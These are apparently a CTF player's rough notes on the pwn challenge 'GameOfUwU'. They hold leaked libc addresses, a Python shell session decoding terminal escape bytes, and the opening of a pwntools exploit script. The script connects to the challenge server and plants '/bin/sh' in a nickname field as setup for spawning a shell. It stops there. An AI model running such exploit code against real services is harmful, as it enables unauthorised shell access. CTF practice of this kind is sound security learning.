

okkk......man
the remote is different again wtf


```
0x7fde13a27760
0x7fde139dd000
0x7fde13a31ae0
```

thew addresses print are the same 


```
  \x1b[H\x1b[2J\x1b[3J+-------------------------------------------------------------------------------+
|                                                         v        _(    )      |
|                                                       v         (___(__)      |

```

but the sky is corrupted

early dopamine release.....

>>> from pwn import * 
>>> x= b'\x1b[H\x1b[2J\x1b[3J+'
>>> print(int.from_bytes(x, 'little'))
13397558454280097127750720283
>>> hex(13397558454280097127750720283)
'0x2b4a335b1b4a325b1b485b1b'



from pwn import * 
import time 
binary = ("./GameOfUwU_patched")

p = process(binary)
p = remote("chal.firebird.sh", 35029)
libc = ELF('./libc.so.6')

elf = ELF(binary)
s = 'b*edit_nickname+127'
#gdb.attach(p, s)
p.sendline(b'1') # press any key to continue

#context.log_level = 'debug'
# overwriting FireUwU

p.recvuntil(b"  1: Play    2: View Team    3: Edit Nickname    0: Exit\n  ")
p.sendline(b'3')

p.recvuntil(b"  Whose nickname do you want to edit? (Please enter an index)\n  ")
p.sendline(b'1')
p.sendlineafter(b"What is its new nickname?", b'/bin/sh')
